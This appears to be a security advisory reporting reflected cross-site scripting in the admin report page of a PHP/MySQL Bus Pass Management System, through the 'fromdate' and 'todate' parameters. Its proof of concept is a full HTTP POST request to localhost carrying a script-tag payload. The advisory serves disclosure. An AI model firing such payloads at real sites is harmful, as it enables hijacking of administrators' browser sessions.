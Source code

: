 # Bus_management
Bus Pass Management System Using PHP and MySQL 1.0

# Auditor:
Shouvik Dutta <a href="https://www.linkedin.com/in/shouvik-dutta/">@shouvik_dutta</a>

# Description: 
Cross-site Scripting detected in Bus Pass Management System Project 1.0

Admin Panel - Report of Pass Page is vulnerable to Cross-Site Scripting

The web application application includes improperly sanitized user input in the admin page specifically at `fromdate` & `todate` parameter at the /pass-bwdates-reports-details.php endpoint output it generates. This can lead to the execution of arbitrary scripts in the context of the victim's browser when they interact with a maliciously crafted link.

Vulnerable Endpoint - /pass-bwdates-reports-details.php
Vulnerable Parameter - `fromdate` & `todate`

# PoCs

`Vulnerable URL: /admin/pass-bwdates-reports-details.php`

`POST Request`
`
POST /admin/pass-bwdates-reports-details.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://localhost
Connection: close
Referer: http://localhost/admin/pass-bwdates-report.php
Cookie: PHPSESSID=kful63rkjq5nk1ordm2tm9keg6
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

fromdate=<script>alert(1)</script>&todate=1111-11-11&submit=

